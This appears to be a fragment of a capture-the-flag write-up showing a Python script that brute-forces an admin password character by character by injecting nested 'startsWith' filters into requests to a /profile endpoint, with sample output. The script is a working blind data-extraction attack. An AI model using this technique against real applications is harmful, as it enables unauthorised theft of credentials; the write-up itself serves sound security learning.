 define a set of character for brute force then we match character by character if the responce contain okay we know that the password at the index is correct. for this we have


```python
chars = "0123456789abcdefghijklmnopqrstuvwxyz"
password_prefix = "BHFlagY{"  # Start of the flag
data = {
    "userId": {
        "email": {
            "startsWith": "admin"
        },
        "user": {
            "password": {
                "startsWith": password_prefix
            }
        }
    }
}

password_found = False
password = password_prefix

# Attempt to find the full password
try:
    while not password_found:
        for c in chars:
            new_password = password + c
            data["userId"]["user"]["password"]["startsWith"] = new_password

            response = requests.post(f"{URL}/profile", headers=headers, json=data)
            print(f"Trying: {new_password}")
            if response.status_code == 200 and "id" in response.text:
                password = new_password
                print(f"Password segment found: {password}")
                if len(password) == 50:  # Adjust length based on expected flag size
                    password_found = True
                break
except requests.RequestException as e:
    print(f"Error during password guessing: {e}")

print(f"Flag: {password}")

```

the out look like 

BHFlagY{0} -> No match.

BHFlagY{1} -> No match.

BHFlagY{a} -> Match! Password is now BHFlagY{a}.

same for all index
